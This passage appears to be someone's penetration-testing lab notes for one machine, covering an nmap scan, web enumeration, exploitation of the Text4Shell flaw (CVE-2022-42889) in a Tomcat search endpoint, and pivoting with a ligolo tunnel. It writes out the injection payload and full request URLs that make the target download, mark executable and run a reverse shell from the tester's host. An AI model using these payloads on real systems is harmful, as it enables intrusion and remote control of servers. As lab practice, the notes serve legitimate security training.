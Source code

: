 ```c
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ad:ac:80:0a:5f:87:44:ea:ba:7f:95:ca:1e:90:78:0d (ECDSA)
|_  256 b3:ae:d1:25:24:c2:ab:4f:f9:40:c5:f0:0b:12:87:bb (ED25519)
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Spring Java Framework
```
## Initial Enumeration
- Enumerate the HTTP server, use GoBuster
	- Found /search, /CHANGELOG
	- CHANGELOG mentions that it added Apace Commons Text 1.8, check for vulns
- Found https://github.com/kljunowsky/CVE-2022-42889-text4shell
- Try the payloads
	- `${script:javascript:java.lang.Runtime.getRuntime().exec('INSERT-COMMAND-HERE')}`
	- Use the payload to download reverse shell, chmod +x the reverse shell, and run the reverse shell
	- Remember to URLEncode using http://urlencode.org
	```shell
	http://192.168.158.150:8080/search?query=${script:javascript:java.lang.Runtime.getRuntime().exec('wget 192.168.45.156/reverse -O /tmp/reverse')}

	http://192.168.158.150:8080/search?query=${script:javascript:java.lang.Runtime.getRuntime().exec('chmod +x /tmp/reverse')}

	http://192.168.158.150:8080/search?query=${script:javascript:java.lang.Runtime.getRuntime().exec('/tmp/reverse')}
	```
## Initial Access + Local Flag
- Logged in as the user `dev`
- local.txt in dev's home folder
	![[Pasted image 20250217181009.png]]
## Enumeration
- Transfer and run linpeas.sh
	- ???
- `ss -ntlpu` to check open ports
	- Open local port on 127.0.0.0:8000
- Transfer ligolo agent and setup ligolo tunnel
	```shell
	# Setting up new tunnel, since ligolo was used for AD
	kali@kali:~$ sudo ip tuntap add user $(whoami) mode tun ligolo2
	kali@kali:~$ sudo ip link set ligolo2 up

	# Start Ligolo Proxy Server on Kali
	kali@kali:~$ ./linux_amd64-proxy -selfcert -laddr 0.0.0.0:443
